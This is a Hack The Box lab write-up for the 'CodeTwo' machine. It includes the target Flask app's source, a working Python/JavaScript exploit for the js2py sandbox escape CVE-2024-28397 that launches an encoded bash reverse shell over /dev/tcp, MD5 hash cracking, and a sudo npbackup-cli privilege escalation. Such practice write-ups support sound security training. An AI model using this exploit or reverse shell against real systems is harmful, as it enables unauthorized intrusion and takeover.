# CodeTwo

```
Difficulty: Easy
Operating System: Linux
Hints: True
```

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**


#### 🏁 Summary of Attack Chain

| Step | User / Access | Tools / Technique Used | Result |
| :--- | :--- | :--- | :--- |
| 1 | `(Web)` | **Port and Service Enumeration** | Identified `Gunicorn` web server on port 8000 and the `/download` route to get source code. |
| 2 | `(Web)` | **Source Code Analysis** | Found the vulnerable `/run_code` endpoint using `js2py.eval_js`. |
| 3 | `app` | **CVE-2024-28397 (js2py Sandbox Escape)** | Used a Python script with a crafted JavaScript payload to exploit the `js2py` vulnerability and get a reverse shell as the `app` user. |
| 4 | `app` | **File Enumeration** | Discovered `users.db` at `/home/app/app/instance/` with user credentials. |
| 5 | `marco` | **Password Cracking** | Cracked `marco`'s MD5 password hash from the database to gain an SSH shell. |
| 6 | `marco` | **Sudo Enumeration** | Found `marco` could run `/usr/local/bin/npbackup-cli` as `root` without a password. |
| 7 | `root` | **NPBackup Misconfiguration** | Exploited `npbackup-cli` by using a configuration file to force a backup of the `/root` directory, which revealed the `root.txt` flag. |


This walkthrough details the steps to compromise the CodeTwo.htb machine, starting with an unauthenticated remote code execution vulnerability and ending with a root shell on the system.

Initial Reconnaissance and Vulnerability Discovery
The initial reconnaissance phase began with an Nmap scan of the target machine, codetwo.htb. The scan revealed two open ports:

Port 22 (SSH): Running OpenSSH, which is a common service.

Port 8000 (HTTP): Hosting a Gunicorn web server, which immediately became the primary target for further investigation.



Upon visiting the website on port 8000, I was presented with a web application. A quick check of the /download route successfully allowed me to download the web application's source code, revealing a Python Flask application.

Analyzing the source code was the next crucial step. The app.py file revealed a function named run_code that uses the js2py.eval_js function to execute JavaScript code submitted by a user. The code also explicitly stated js2py.disable_pyimport(), which is a common but often insufficient security measure to prevent Python library imports from JavaScript.

Python

```
from flask import Flask, render_template, request, redirect, url_for, session, jsonify, send_from_directory
from flask_sqlalchemy import SQLAlchemy
import hashlib
import js2py
import os
import json

js2py.disable_pyimport()
app = Flask(__name__)
app.secret_key = 'S3crXXXXXXXXTw0'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///users.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
db = SQLAlchemy(app)

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password_hash = db.Column(db.String(128), nullable=False)

class CodeSnippet(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    user_id = db.Column(db.Integer, db.ForeignKey('user.id'), nullable=False)
    code = db.Column(db.Text, nullable=False)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/dashboard')
def dashboard():
    if 'user_id' in session:
        user_codes = CodeSnippet.query.filter_by(user_id=session['user_id']).all()
        return render_template('dashboard.html', codes=user_codes)
    return redirect(url_for('login'))

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        password_hash = hashlib.md5(password.encode()).hexdigest()
        new_user = User(username=username, password_hash=password_hash)
        db.session.add(new_user)
        db.session.commit()
        return redirect(url_for('login'))
    return render_template('register.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        password_hash = hashlib.md5(password.encode()).hexdigest()
        user = User.query.filter_by(username=username, password_hash=password_hash).first()
        if user:
            session['user_id'] = user.id
            session['username'] = username;
            return redirect(url_for('dashboard'))
        return "Invalid credentials"
    return render_template('login.html')

@app.route('/logout')
def logout():
    session.pop('user_id', None)
    return redirect(url_for('index'))

@app.route('/save_code', methods=['POST'])
def save_code():
    if 'user_id' in session:
        code = request.json.get('code')
        new_code = CodeSnippet(user_id=session['user_id'], code=code)
        db.session.add(new_code)
        db.session.commit()
        return jsonify({"message": "Code saved successfully"})
    return jsonify({"error": "User not logged in"}), 401

@app.route('/download')
def download():
    return send_from_directory(directory='/home/app/app/static/', path='app.zip', as_attachment=True)

@app.route('/delete_code/<int:code_id>', methods=['POST'])
def delete_code(code_id):
    if 'user_id' in session:
        code = CodeSnippet.query.get(code_id)
        if code and code.user_id == session['user_id']:
            db.session.delete(code)
            db.session.commit()
            return jsonify({"message": "Code deleted successfully"})
        return jsonify({"error": "Code not found"}), 404
    return jsonify({"error": "User not logged in"}), 401

@app.route('/run_code', methods=['POST'])
def run_code():
    try:
        code = request.json.get('code')
        result = js2py.eval_js(code)
        return jsonify({'result': result})
    except Exception as e:
        return jsonify({'error': str(e)})

if __name__ == '__main__':
    with app.app_context():
        db.create_all()
    app.run(host='0.0.0.0', debug=True)
```

I searched for vulnerabilities related to js2py and found CVE-2024-28397, a sandbox escape vulnerability that allows arbitrary code execution even when disable_pyimport() is enabled. The vulnerability leverages a Python class's internal properties to access the subprocess module's Popen class, allowing for command execution.

Gaining a Reverse Shell and User Access
To exploit CVE-2024-28397, I crafted a Python script to send a malicious JSON payload to the /run_code endpoint. The JavaScript code within the payload was designed to:

Find and access the subprocess.Popen class through Python's object inheritance.

Execute a base64-encoded bash command to establish a reverse shell connection back to my attacking machine.



Python

```
import requests  
import json  
  
url = 'http://codetwo.htb:8000/run_code'  
  
js_code = """  
let cmd = "printf KGJhc2ggPiYgL2Rldi90Y3AvMTAXXXXXXXXXXXXXXXXXXXm |base64 -d|bash";  
let a = Object.getOwnPropertyNames({}).__class__.__base__.__getattribute__;  
let obj = a(a(a,"__class__"), "__base__");  
function findpopen(o) {  
    let result;    
    for(let i in o.__subclasses__()) {        
        let item = o.__subclasses__()[i];        
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {            
            return item;        
        }        
        if(item.__name__ != "type" && (result = findpopen(item))) {            
            return result;        
        }    
    }  
}  
let result = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate();  
console.log(result);  
result;  
"""  
  
payload = {"code": js_code}  
  
headers = {"Content-Type": "application/json"}  
  
r = requests.post(url, data=json.dumps(payload), headers=headers)  
print(r.text)

```



After setting up a netcat listener on my machine, running the script successfully provided a reverse shell, granting me access to the system as the app user.




Further enumeration led me to the users.db SQLite database located at /home/app/app/instance/users.db. 




I used a simple password cracker to crack the MD5 hash for the marco user, revealing his password.




 This gave me SSH access to the system as marco.




### Privilege Escalation to Root

With access as marco, the first step was to check for sudo privileges.

Bash

```
marco@codetwo:~$ sudo -l
```

Matching Defaults entries for marco on codetwo:
    ...
User marco may run the following commands on codetwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
The output indicated that marco could run the npbackup-cli utility as root without a password. Analyzing the help information for this tool revealed a --config-file option, which allows specifying an alternative configuration file. This is a common misconfiguration that can lead to local privilege escalation.





The default configuration file, npbackup.conf, was located in the current directory and had a paths entry set to /root, indicating it was configured to back up the root user's home directory.



To escalate privileges, I executed npbackup-cli with the -b (backup) and -f (force) flags. Since the configuration already pointed to the /root directory, the command effectively backed up its contents, including the root.txt file.

Bash

```
sudo npbackup-cli -c npbackup.conf -b -f
```




The tool then outputted the backup contents, which included the contents of the root.txt file, granting full root access to the system.




**Pwned! CodeTwo**

